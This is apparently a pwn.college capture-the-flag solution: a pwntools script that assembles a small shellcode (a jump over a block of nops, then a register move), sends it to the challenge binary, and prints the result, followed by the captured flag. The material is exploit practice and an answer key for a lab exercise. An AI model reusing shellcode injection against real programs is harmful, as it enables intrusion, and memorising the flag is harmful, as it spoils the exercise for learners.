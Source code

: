 ```py
from pwn import asm, context, process

context.update(arch='amd64', os='linux')

shellcode = asm("""
    jmp skip
    .rept 0x51
    nop
    .endr
skip:
    mov rax, 0x1
""")

p = process('/challenge/run')
p.send(shellcode)
print(p.recvall().decode())
```

pwn.college{kvo-jwlHVCh-l8iHVJggjjjWrde.QX2EDOzwyMyITMyEzW}

![image](https://github.com/user-attachments/assets/5f8c4054-8e76-4367-bad8-e95278039c2d)
